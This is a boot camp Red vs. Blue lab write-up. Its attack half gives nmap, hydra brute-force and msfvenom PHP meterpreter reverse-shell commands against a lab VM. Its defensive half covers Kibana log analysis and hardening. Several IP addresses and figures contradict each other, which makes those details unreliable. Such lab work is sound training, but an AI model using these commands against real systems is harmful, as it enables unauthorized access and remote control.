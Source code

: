 # UCLA Cyber Security Boot Camp Project II - Red vs. Blue Engagement
## by Kurt Anderson

In this project I will work on a Red Team vs. Blue Team scenario in which I will play the roles of both Pentester and Security Operations Center Analyst.

As the Red Team, I will attack a vulnerable VM within my created virtual environment, ultimately gaining root access to the machine.
As the Blue Team, I will use Kibana to review logs taken during the Red Team engagement. I will then use the logs to extract hard data and visulaizations for my report, using it to interpret my log data to suggest mitigation measures for each exploit that I've successfully performed as a Pentester.

Day 1 Activity File: Red Team

Complete the following to find the flag:

●	Discover the IP address of the Linux web server.

Command:
	
	nmap -v 192.168.1.0/24 
  
  ![nmap scan of 192.168.1.0/24](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/nmap_scan.jpg)
  
IP address found:
  
	192.168.1.90
	
●	Locate the hidden directory on the web server.

I used dirb to enumerate any directories and identify the hidden folder.

![dirb directory enumeration](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/dirb_enumeration.jpg)
 
●	Brute force the password for the hidden directory using the hydra command:

![Hydra Brute Force](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/hydra.jpg)

Using the username and password I was able to log into the host and found a Personal Note:

Command:

	hydra -l ashton -P /usr/share/wordlists/rockyou.txt webdav://192.168.1.90/

![Personal Note:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/personal_note.jpg)

●	Break the hashed password with the Crack Station website or John the Ripper.
 
![Cracked Password:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/cracked_password.jpg)

●	Connect to the server via WebDav.

![WebDAV Credentials](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_login.PNG)

●	Upload a PHP reverse shell payload.
Command: 

	msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 raw > reverse_shell.php

![Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/msvenom.jpg)
![WebDAV File Manager](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_reverse_shell.jpg)
![WebDAV Browswer](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_upload.jpg)
 
●	Execute the payload that you uploaded to the site to open up a meterpreter session.

![Exploit Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/payload.jpg)
![Exploitation](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/exploitation.jpg)

●	Find and capture the flag.

![Flag Found](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/meterpreter.jpg)


Day 2 Activity File: Incident Analysis with Kibana

 
After creating your dashboard and becoming familiar with the search syntax, use these tools to answer the questions below:

1.	Identify the offensive traffic.
![Dashboard](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/Kibana_analysis.PNG)

○	Identify the traffic between your machine and the web machine:

	■	When did the interaction occur?

		The interaction occurred on 2021-12-14 03:00

	■	What responses did the victim send back?

		200, 207, 401, 404, 206, 304, 301

	■	What data is concerning from the Blue Team perspective?

		The status code ‘OK’ signifying that there was a completed request from the source IP and a response from the destination IP
 

2.	Find the request for the hidden directory.

○	In your attack, you found a secret folder. Let's look at that interaction between these two machines.

	■	How many requests were made to this directory? At what time and from which IP address(es)?

		There were 16,721 requests made to the directory /secret_folder, at 03:45 from the IP address 192.168.1.90.

	■	Which files were requested? What information did they contain?

		The file that was requested is the reverse_shell.php file

	■	What kind of alarm would you set to detect this behavior in the future?

		To detect this behavior in the future, I would set an alert to send an email with a high priority to notify the SOC that this type of request was made to access confidential company folders and data. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine that would mitigate this attack would be to ensure that the device has been updated and patched regularly in order to mitigate the exploitation of common system vulnerabilities.

3.	Identify the brute force attack.

○	After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
	
	■	Can you identify packets specifically from Hydra?

		Yes, by searching the ‘user_agent.original” field. 

	■	How many requests were made in the brute-force attack?

		There were 16,711 requests
 
	■	How many requests had the attacker made before discovering the correct password in this one?

		It appears that there were 16,711 requests before the correct password was discovered.
 

	■	What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?

		I would set an alert to email the SOC that the login threshold has been surpassed in a certain amount of time. 


	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		Upon searching through the logs it appeared that most of these requests happened through port 80 on the target machine, so I would suggest to place a firewall to filter out packets coming from outdated user agents like Mozilla 4.0, or close port 80 entirely.
	
4.	Find the WebDav connection.

○	Use your dashboard to answer the following questions:

	■	How many requests were made to this directory?

		209 requests were made to the 192.168.1.105/webdav/ directory.
 

	■	Which file(s) were requested?

		XML files were requested, based on the HTTP request method ‘propfind’, and the status code of 207, which is a response used by webdav servers.

	■	What kind of alarm would you set to detect such access in the future?

		An alarm to alert the SOC of any PROPFIND requests for Webdav.

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine from PROPFIND is to use multi-factor authentication to help prevent brute-force attacks on webdav logins.

5.	Identify the reverse shell and meterpreter traffic.

○	To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
	
	■	Can you identify traffic from the meterpreter session?
 
		There was a spike in activity from the source IP address 192.168.1.90, which potentially shows that the target machine 192.168.1.105 had been breached, since they share similar patterns in activity. 

	■	What kinds of alarms would you set to detect this behavior in the future?
		
		An alert that has a minimum threshold of packet traffic to alert the SOC of any spikes in activity, and is monitored every hour. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		In order to harden the vulnerable machine to mitigate this attack, I suggest that we require authentication in order to upload files to the webdav server, as well as defining the valid file extension types allowed on the server.
